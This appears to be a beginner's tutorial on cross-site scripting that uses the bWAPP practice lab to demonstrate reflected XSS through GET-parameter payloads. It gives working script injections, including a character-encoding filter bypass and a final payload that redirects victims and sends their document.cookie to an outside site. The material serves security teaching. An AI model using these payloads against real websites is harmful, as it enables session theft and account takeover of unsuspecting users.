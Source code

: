 #Cross Site Scripting (XSS)
XSS is the most common web application security flaw. XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content. The three known types of XSS vulnerabilities that we will cover are:
* Reflected XSS
* Stored XSS
* DOM Based XSS

#Javascript
The magic behind XSS attacks is the Javascript language. Javascript is the browser's language, and as such, whenever you have a webpage, you try to use javascripts to make it do what you want it do it. 
To demonstrate this, you can simply open up your favorite browser (I prefer chrome) and access the console in the developer tools. *In chrome, just right click anywhere, and select inspect. Now click the console tab.*
In the console you can execute any piece of javascript you want to for testing purposes. However, it won't actually impact anyone else. Try executing the following:
```
console.log('Does this even work?');
alert('I am a bAd@$$ H@cK3r');
```

##Reflected XSS
Let's get started with BwaPP's 'XSS - Reflected (GET)/(POST)' exercise.
The form on the page asks us to provide a first and last name. It takes what you enter in those fields and prints into out on the page. What we can do with this is try to get that output to compromise other users using javascript.

In these exercises we are going to be using GET request exploits. So we will edit the inputs directly in the GET url. 

Let's first test to see whether it will render any javascript we enter into the field. Enter the following into the last name field. You can enter anything you want into the first name field for now. Add the following to the end of your GET url.
```
?firstname=simeon&lastname=kakpovi<script>alert("hello")</script>
```
You should get a popup window on your screen with the word "hello".

If this works, it means the page will evaluate whatever javascript we submit inthe form. We can use that to steal an authenticated user's credentials for example.
```
kakpovi<script>alert(document.cookie)</script>
```
Suppose the developed put something in place to prevent us from submitting javascript elements we can have the page evaluate our command in javascript based on each character's byte value.
```
?firstname=simeon&lastname
=<script>alert(String.fromCharCode(77,77,69,32,114,48,99,107,115,33))</script>
```

Alternatively, we can redirect the user to different website of our desire. 
```
?firstname=simeon&lastname=
<script>window.location= "http://www.simeonkakpovi.com";</script>
```
Although this may seem benign, it really gets malicious when you send the user's credentials also with it. The receiving website could parse the credentials without you ever knowing.

```
<script>window.location="http://simeonkakpovi.com?cookie="+document.cookie;</script>
```